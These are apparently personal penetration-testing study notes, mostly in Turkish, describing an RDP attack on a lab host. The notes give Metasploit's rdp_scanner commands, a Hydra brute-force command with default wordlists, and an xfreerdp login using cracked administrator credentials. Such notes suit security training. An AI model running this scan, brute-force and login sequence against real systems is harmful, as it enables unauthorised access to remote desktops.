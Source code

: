
---
## MSFCONSOLE - RDP - SCANNER
#rdp-msfconsole
#rdp-scanner
#rdp-scanner-msfconsole
![[Pasted image 20240201223927.png]]
![[Pasted image 20240201224217.png]]
```
msfconsole
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.0.0.31
set RPORT 3333
exploit
```

![[Pasted image 20240201224005.png]]
### RDP olduğunu ve çalıştığı portları tespit ettik.
---
### Şimdi RDP'ye bağlanmak için Credentials'a ihtiyacımız var HYDRA imdadımıza yetişir.
## Hydra - RDP
#hydra-rdp

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333
```
### Yukarıdaki hydra kodunda port 3333 özelikle belirtmek için -s optionu koyuyoruz. unutma

![[Pasted image 20240201224336.png]]


### Şimdi username ve password elimizde olduğu için sıra geldi Remote Desktopa bağlanmaya

```
xfreerdp /u:administrator /p:qwertyuiop /v:10.0.0.31:3333
```
### port 3333 yazılışına dikkat et

#rdp-connect
#xfreerdp
![[Pasted image 20240201231355.png]]

**1. rdesktop:**
**2. freerdp:**
**3. xfreerdp:**
**4. Remmina:**
**5. Tsclient:**

---
---